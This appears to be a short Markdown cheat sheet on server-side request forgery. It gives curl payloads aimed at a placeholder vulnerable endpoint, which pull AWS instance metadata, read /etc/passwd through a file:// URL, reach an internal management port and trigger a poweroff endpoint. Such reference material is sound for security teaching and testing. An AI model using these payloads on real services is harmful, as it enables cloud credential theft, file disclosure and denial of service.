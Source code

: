 # SSRF

## Table of Contents
- [Access Control Bypass](#access-control-bypass)

## Access Control Bypass

### Access controls implemented in the service can be bypassed, leading to data leakage.

- Retrieving instance metadata from cloud services [^1]
   ```bash
   curl https://[VULNERABLE-SERVICE]/translate?url=http://169.254.169.254/latest/meta-data/
   ```

- Read arbitrary files from the file system
   ```bash
   curl https://[VULNERABLE-SERVICE]/translate?url=file:///etc/passwd
   ```

- Access to the internal network
   ```bash
   curl https://[VULNERABLE-SERVICE]/translate?url=http://127.0.0.1:8888/management
   ```

### It is possible to interact with internal services

- DOS
   ```bash
   curl https://[VULNERABLE-SERVICE]/translate?url=http://127.0.0.1:8888/poweroff
   ```
      
[^1]: Based on IMDSv1 (AWS)
